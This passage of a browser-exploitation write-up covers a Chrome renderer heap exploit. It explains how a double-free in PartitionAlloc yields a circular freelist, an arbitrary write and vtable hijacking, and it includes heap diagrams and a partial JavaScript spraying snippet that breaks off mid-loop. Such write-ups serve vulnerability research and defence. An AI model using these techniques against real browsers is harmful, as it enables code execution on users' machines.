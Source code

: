 Good, but not enough, we've defeated any ASLR, but now we need a control
flow hijacking idea. Instead of looking for more good victim objects, we
can directly attack PartitionAlloc again and corrupt the freelist pointer.
The idea is to create a double-free condition, which will result in an 
circular freelist and ultimately overwrite the pointer.

CSSVariableData and AudioArray essentially point to the same address, so
we can cause both of them be freed and cause a "double-free". If we do
this, the freelist pointer written in the chunk will point to itself:

```

 +----------+
 |          | It's pointing at itself
 |          v
 |    +-------------------------+-------------------------+
 +----|       freelist ptr      |    "A\x00\x00\x00"      |
      +-------------------------+-------------------------+
      |                "A\x00\x00\x00..."                 |
      +---------------------------------------------------+
```

This circular freelist is extremely powerful, because we can use the same
AudioBuffer as before to corrupt the freelist pointer. The next allocation
request will return the pointer we want, giving us an arbitrary write.

```
 +----------+
 |          | It's pointing at itself
 |          v
 |    +-------------------------+-------------------------+
 +----|      freelist ptr       |    "A\x00\x00\x00"      |
      +-------------------------+-------------------------+
      |                "A\x00\x00\x00..."                 |
      +---------------------------------------------------+
                                |
                                | Alloc an AudioArray and corrupt freelist
                                |
                                v
      +-------------------------+-------------------------+
      |      corrupted ptr      |    "A\x00\x00\x00"      |
      +-------------------------+-------------------------+
      |                "A\x00\x00\x00..."                 |
      +---------------------------------------------------+
```

The only restriction for the corrupted pointer is that it must be from
within the same Super Page. To achieve code execution, we will deallocate
object B and allocate objects that have vtables, then corrupt the
freelist to point to one of these objects. This way, we can corrupt the
vtable pointer and easily gain control flow hijack. Follow snipped of
exploit alloc the vtable object and leaks its address:

```js
CSSVars = [
  // this regex is used to find the B objects in memory
  // the pattern match with: 0x2000 + flags + "${i}.${j}" + "BBBBB..."
  ...CSSLeak.matchAll(/\x02\x00\x00\x00\x14\x04\x00\x01(\d+\.\d+)/g)
];
...
for (let i = 0; i < kSprayPannerCount; i++) {
  panners.push(audioCtx.createPanner());
}
for (let i = 0; i < kSprayPannerCount; i++) {
  // i really idk why, but i need add the ref_count_ and remove the
  // prop to trigger free
  rs.getPropertyValue(`--b${CSSVars[i][1]}`);
```